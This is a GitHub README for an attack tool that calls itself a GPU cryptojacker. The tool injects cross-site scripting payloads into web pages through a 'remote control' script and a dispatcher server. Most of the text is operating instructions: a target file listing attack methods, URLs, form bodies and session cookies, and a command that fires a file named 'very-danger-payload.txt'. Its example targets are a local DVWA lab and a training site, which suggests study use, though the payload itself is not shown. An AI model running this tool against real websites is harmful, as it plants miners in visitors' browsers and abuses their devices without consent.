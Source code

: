 # XSS.injection
A GPU cryptojacker script

# Getting Started
First of all clone the repository
```shell
git clone https://github.com/nikiluciano/XSS-injection.git
cd XSS-injection
```
## Run testing environment
Run the testing enviroment through `docker-compose`.
```shell
cd ./remote-control
chmod +x ./run-test-environment.sh
./run-test-environment.sh
```
This will run a `DVWA` instance with its `mysql` database in two containers. 
After this, it will automatically run the dispatcher server (`dispatcher.py`).

# Use the remote control
Before running the remote control you need to define the attack targets in the `remote-control/sites-urls.txt`.
Simply edit the file using tabs as spacer:

1. Insert in the first column the attack method, you can choose between `GET` `POST` `ALL` `AUTO` `DEFAULT`;
2. In the second column insert the base url of the attack;
3. In the third column insert the string prams for the `GET` methods and the body for the `POST` one;
4. (optional) In the last column you can insert the cookies such as the `PHPSESSID`.

You can also use the hashtag (#) to comment a line and avoid the execution of the attack on that target.
Here is an example:

```shell
GET         http://xss-game.appspot.com                                     /level1/frame?query=XSS
POST        http://localhost:8060/vulnerabilities/xss_s/index.php           txtName=hijacked&mtxMessage=XSS&btnSign=Sign+Guestbook      PHPSESSID=YOURPHPSESSID;security=low
ALL         http://localhost:8060/vulnerabilities/xss_s/index.php
AUTO        http://xss-game.appspot.com                                     /level1/frame?query=XSS
DEFAULT     http://xss-game.appspot.com                                     /level1/frame?query=XSS
# This is a comment. The following line is ignored.
# GET     http://xss-game.appspot.com                                     /level1/frame?query=XSS
```

# Run the attack
Once defined the targets you can run the attack using the `remote-control.sh`
```shell
chmod +x ./remote-control.sh
./remote-control.sh -s -i -p very-danger-payload.txt
```

